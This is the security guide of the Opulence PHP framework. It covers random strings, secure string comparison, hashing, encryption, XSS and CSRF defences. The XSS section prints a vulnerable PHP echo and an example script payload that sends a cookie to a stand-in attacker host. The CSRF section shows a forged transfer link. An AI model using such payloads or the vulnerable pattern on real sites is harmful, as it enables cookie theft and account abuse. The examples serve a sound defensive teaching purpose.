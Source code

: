 # Security

## Table of Contents
1. [Introduction](#introduction)
2. [Generating Random Strings](#generating-random-strings)
  1. [What is It?](#random-strings-what-is-it)
  2. [How to Use It](#random-strings-how-to-use-it)
3. [Comparing Strings](#comparing-strings)
  1. [What is It?](#comparing-strings-what-is-it)
  2. [How to Use It](#comparing-strings-how-to-use-it)
4. [Hashing](#hashing)
  1. [What is It?](#hashing-what-is-it)
  2. [How to Use It](#hashing-how-to-use-it)
5. [Encryption](#encryption)
  1. [What is It?](#encryption-what-is-it)
  2. [How to Use It](#encryption-how-to-use-it)
6. [Cross-Site Scripting (XSS)](#cross-site-scripting)
  1. [What is It?](#xss-what-is-it)
  2. [How to Defend Against It](#xss-how-to-defend-against-it)
7. [Cross-Site Request Forgery (CSRF/XSRF)](#cross-site-request-forgery)
  1. [What is It?](#csrf-what-is-it)
  2. [How to Defend Against It](#csrf-how-to-defend-against-it)

<h2 id="introduction">Introduction</h2>

Building a secure application is extremely difficult.  Protecting your users from cross-site scripting, cross-site request forgeries, and session hijacking requires a lot of tools.  Fortunately, you don't have to be a security expert to take advantage of all the protection Opulence delivers out of the box.

<h2 id="generating-random-strings">Generating Random Strings</h2>

<h4 id="random-strings-what-is-it">What is It?</h4>

Random strings are commonly used to ensure security for things like session Ids and authentication tokens.  If your random strings are not so random, then your entire application can be compromised.

<h4 id="random-strings-how-to-use-it">How to Use It</h4>

Learn how to [generate random strings](cryptography#generating-random-strings) in Opulence.

<h2 id="comparing-strings">Comparing Strings</h2>

<h4 id="comparing-strings-what-is-it">What is It?</h4>

Comparing sensitive strings, like hashes and tokens, using PHP's `==` operator can give away information about the string you're comparing against.  For example, comparing "aaa" to "bbb" will return `false` faster than "aaa" and "aab" because PHP's comparison operator returns false at the first differing character.  Using
a sensitive timer and many iterations, a hacker could figure out any secured hash that's being compared with user input.

<h4 id="comparing-strings-how-to-use-it">How to Use It</h4>

Learn how to [securely compare strings](cryptography#string-comparison) in Opulence.

<h2 id="hashing">Hashing</h2>

<h4 id="hashing-what-is-it">What is It?</h4>

Hashing involves performing a one-way mapping of input to a hashed value, which is suitable for storing sensitive data.

<h4 id="hashing-how-to-use-it">How to Use It</h4>

Learn how to [hash data](cryptography#hashing) in Opulence.

<h2 id="encryption">Encryption</h2>

<h4 id="encryption-what-is-it">What is It?</h4>

Encryption is the process of encoding data with a special key so that only authorized parties may read it.

<h4 id="encryption-how-to-use-it">How to Use It</h4>

Learn how to [encrypt data](cryptography#encryption) in Opulence.

<h2 id="cross-site-scripting">Cross-Site Scripting (XSS)</h2>

<h4 id="xss-what-is-it">What is It?</h4>

Cross-site scripting involves the injection of client-side scripts into your pages.  A common vulnerability is displaying unsanitized user input to your page:

```php
Hello, <?php echo $_GET["name"]; ?>
```

A malicious user could send an unsuspecting user a hyperlink with a XSS injection in the URL:  `http://your-site.com/?name=<script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>`.  Clicking on the link would take the user to your page, which would display:

```
Hello, <script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>
```

Loading this page would send the user's "user-password" cookie to the attacker's server.

<h4 id="xss-how-to-defend-against-it">How to Defend Against It</h4>

To solve this problem you must sanitize any user-input before displaying it on a page.  [Opulence's template system](view-fortune#sanitized-tags) gives you the tools to prevent cross-site scripting.

<h2 id="cross-site-request-forgery">Cross-Site Request Forgery (CSRF/XSRF)</h2>

<h4 id="csrf-what-is-it">What is It?</h4>

Cross-site request forgery is an attack where unauthorized commands are sent to a trusted site through an authenticated user.  For example, a malicious user might send a normal user Bob the following hyperlink:  `http://your-site.com/transferMoney?amount=1000&to=attacker-account-Id`.  If Bob was logged into your site, clicking this link would attempt to transfer money to the attacker's account without Bob's authorization.

<h4 id="csrf-how-to-defend-against-it">How to Defend Against It</h4>

To prevent this from happening, a unique token should be embedded in every form and with every session.  When the form is submitted, the form token and session token should be compared, and if they are not equal, the submission should be rejected.  In the example case above, the form token would not be set.  With CSRF protection in place, the form and session tokens would not match, and the form submission would be rejected.

Opulence automatically generates and compares the tokens using middleware.  To include the token in your form, use the `{{! csrfInput() !}}` view function in your view.  This will create a hidden input with your token, which will validate against the session token.  You can also use the `{{ csrfToken() }}` template function to print the token in elements like meta tags:

```php
<meta name='csrf-token' content='{{ csrfToken() }}' >
```

To give you CSRF protection in JavaScript, Opulence sets the `XSRF-TOKEN` cookie, which some frameworks use to automatically set the `X-XSRF-TOKEN` HTTP header in requests.
